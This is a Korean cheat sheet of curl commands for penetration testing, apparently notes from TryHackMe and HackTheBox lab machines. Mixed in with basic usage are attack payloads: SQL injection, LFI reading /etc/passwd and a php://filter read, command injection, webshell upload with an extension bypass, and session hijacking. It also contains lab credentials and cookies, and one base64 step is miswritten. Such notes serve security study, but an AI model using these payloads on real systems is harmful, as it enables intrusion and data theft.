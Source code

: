 # curl - HTTP 요청 도구

## 기본 요청

```bash
curl http://target.com                # 기본 GET 요청 (출력: 터미널)
curl -o file.html http://target.com   # 파일로 저장
curl -s http://target.com             # 진행 바 숨김
curl -L http://target.com             # 리다이렉트 따라가기
```

## 디버깅/분석

```bash
curl -v http://target.com             # 모든 요청/응답 상세 표시 (필수)
curl -I http://target.com             # 헤더만 요청 (HEAD 메소드)
curl -i http://target.com             # 응답 본문과 헤더 함께 표시

# 리디렉션으로 파일 저장 후 base64 디코딩
# 자동으로 --data-urlencode 인코딩 -> <script>alert('XSS')</script> -> %3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E

curl "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/read=convert.base64-encode/resource=../../hello.php" > hello.b64
base64 --data-urlencode hello.b64 > hello.php
```

## 인증

```bash
curl -u user:pass http://target.com   # 기본 인증
curl -H "Authorization: Bearer eyJh..." http://target.com  # JWT/토큰

# 쿠키 관련
curl -c cookie.txt http://target.com        # 쿠키 저장
curl -b cookie.txt http://target.com        # 저장된 쿠키 사용
curl -b cookie.txt -c cookie.txt http://target.com  # 세션 유지

# cookie example (total 2)
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070

# request with cookie
curl -i -L -H "Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070" -H "User-Agent: Mozilla/5.0" http://www.smol.thm/wp-admin/
```

## 데이터 전송

```bash
# POST form
# -d === --data
curl -X POST -d "user=admin&pass=secret" http://target.com/login.php

# login
curl -i -X POST "http://www.smol.thm/wp-login.php" -H "Content-Type: application/x-www-form-urlencoded" -H "User-Agent: Mozilla/5.0" --data "log=wpuser&pwd=kbLSF2Vop%23lw3rjDZ629*Z%25G&rememberme=forever&wp-submit=Log+In&redirect_to=http://www.smol.thm/wp-admin/" -c cookie.txt


# 파일 업로드
curl -F "file=@shell.php" -F "description=profile" http://target.com/upload.php

# JSON 전송
curl -X POST -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"s3cr3t"}' \
    http://target.com/api/login
```

## 헤더 조작

```bash
# 사용자 에이전트 변경
curl -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" http://target.com

# IP 스푸핑 시도
curl -H "X-Forwarded-For: 127.0.0.1" http://target.com
curl -H "X-Real-IP: 127.0.0.1" http://target.com
```

## 보안/프록시

```bash
curl -k https://target.com                       # SSL 인증서 검증 무시
curl -x http://127.0.0.1:8080 http://target.com  # HTTP 프록시 (Burp)
curl --socks5 127.0.0.1:9050 http://target.com   # SOCKS5 프록시 (Tor)
```

## 취약점 테스트

```bash
# SQL 인젝션
curl "http://target.com/search.php?id=1 OR 1=1--"

# LFI
curl "http://target.com/page.php?file=../../../etc/passwd"

# 명령어 인젝션
curl "http://target.com/ping.php?host=127.0.0.1;id"
```

# 파일 업로드 취약점 (확장자 우회)

curl -X POST -F "file=@webshell.php;filename=image.jpg;type=image/jpeg" http://target.com/upload
curl -F "file=@/경로/파일명" http://타겟IP/upload.php
`@`는 curl에서 파일 업로드할 때 로컬 파일임을 나타내는 표시입니다. `-F` 옵션과 함께 사용합니다.

````

### 인증 우회 및 세션 작업

```bash
# CSRF 토큰 추출 후 사용
TOKEN=$(curl -s -c cookie.txt http://target.com/form | grep -o 'csrf_token" value="[^"]*' | cut -d'"' -f3)
curl -b cookie.txt -d "csrf_token=$TOKEN&username=admin&password=password" http://target.com/login

# 쿠키 조작으로 세션 하이재킹
curl -b "sessionid=STOLEN_SESSION_VALUE" http://target.com/admin

# HTTP 기본 인증 테스트
curl -u admin:password http://target.com/admin
````

### 유용한 도구 조합

```bash
# URL 인코딩 (Python 활용)
curl "http://target.com/search?q=$(python3 -c "import urllib.parse; print(urllib.parse.quote('<script>alert(1)</script>'))")"

# Base64 인코딩 헤더 사용 (Basic Auth)
curl -H "Authorization: Basic $(echo -n 'admin:password' | base64)" http://target.com

# 404 오류 페이지 숨기기
curl -f http://target.com/admin || echo "페이지 없음"

# 응답에서 특정 정보 필터링
curl -s http://target.com | grep "flag"
```

### 실전 로그인 및 세션 유지 예시

```bash
# 로그인하여 세션 쿠키 저장
curl -c cookie.txt -X POST http://lookup.thm/login.php -d 'username=admin&password=password123' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'

# 저장된 쿠키로 인증된 페이지 접근
curl -b cookie.txt http://lookup.thm/dashboard.php

#파일 다운로드
wget http://www.smol.thm:8080/wordpress.old.zip
# wget 없을 때 파일 다운로드
curl -O http://smol.thm:8080/wordpress.old.zip
```

# 로그인 쿠키 저장

curl -c cookie.txt -X POST http://grafana.planning.htb/login -H "Content-Type: application/json" -d '{"user":"admin","password":"0D5oT70Fq13EvB5r"}'

┌──(root㉿docker-desktop)-[/]
└─# curl -c cookie.txt -X POST http://grafana.planning.htb/login \
 -H "Content-Type: application/json" \
 -d '{"user":"admin","password":"0D5oT70Fq13EvB5r"}'

# Cookie File -> Netscape format 분석

grafana.planning.htb FALSE / FALSE 1755096838 grafana_session_expiry 1752505433
#HttpOnly_grafana.planning.htb FALSE / FALSE 1755096838 grafana_session 508ccc52bfc97942574a1cb84a726eb1

| 항목      | 설명                                                           |
| --------- | -------------------------------------------------------------- |
| 도메인    | `grafana.planning.htb` – 쿠키가 유효한 호스트                  |
| `FALSE`   | 이 쿠키가 서브도메인에 적용되는지 여부 (FALSE = 해당 도메인만) |
| 경로      | `/` – 쿠키가 유효한 경로                                       |
| Secure    | `FALSE` – HTTPS에서만 전송되는지 여부                          |
| 만료 시간 | `1755096838` (Unix timestamp) – 쿠키 만료 시각                 |
| 이름      | `grafana_session_expiry` 또는 `grafana_session`                |
| 값        | 예: `508ccc52bfc97942574a1cb84a726eb1`                         |
